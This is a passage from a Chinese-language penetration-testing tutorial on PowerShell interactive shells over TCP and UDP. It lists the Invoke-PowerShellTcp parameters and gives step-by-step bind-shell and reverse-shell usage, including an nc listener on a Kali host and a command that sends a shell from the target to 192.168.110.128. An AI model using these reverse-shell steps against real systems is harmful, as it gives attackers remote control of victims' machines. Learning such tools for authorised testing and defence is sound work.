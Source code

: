 参数介绍：



```
-IPAddress &lt;String&gt; 选择-Reverse选项时是需要连接到的IP地址
-Port &lt;Int32&gt; 选择-Reverse选项时是需要连接到的端口，选择-Bind选项时是需要监听的端口。
-Reverse [&lt;SwitchParameter&gt;] 反向连接
-Bind [&lt;SwitchParameter&gt;] 正向连接
```

使用实例：

1. 正向连接

第一步：在目标机运行脚本，监听端口86

[![](https://p2.ssl.qhimg.com/t01c14d0a09ae676aed.png)](https://p2.ssl.qhimg.com/t01c14d0a09ae676aed.png)

第二步：使用nc连接到目标机端口86

[![](https://p2.ssl.qhimg.com/t010c1f70fb1dfa1488.png)](https://p2.ssl.qhimg.com/t010c1f70fb1dfa1488.png)

2. 反向连接

第一步：使用nc监听本地端口86（注意必须先监听，不然在目标机上执行脚本会出错）

```
root@kali:~# nc -ltp 86
```

第二步：在目标机上反弹shell

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.110.128 -Port 86
```

第三步：观察攻击机，可以发现成功反弹shell

[![](https://p3.ssl.qhimg.com/t014fc720ff23af033e.png)](https://p3.ssl.qhimg.com/t014fc720ff23af033e.png)

**二、基于UDP协议的PowerShell交互式Shell**

Invoke-PowerShellUdpPowershell交互式正向连接或反向连接shell，基于UDP协议。

使用实例：

1. 正向连接

正向连接，和上面用法相同，不过是基于UDP协议，所以nc命令就要改动一下了。

[![](https://p5.ssl.qhimg.com/t01fb2399c1df4ea7f4.png)](https://p5.ssl.qhimg.com/t01fb2399c1df4ea7f4.png)

2. 反向连接

反向连接，和上面用法相同，不过在使用nc监听的时候使用UDP协议。

[![](https://p2.ssl.qhimg.com/t0156cd7a529e29c953.png)](https://p2.ssl.qhimg.com/t0156cd7a529e29c953.png)
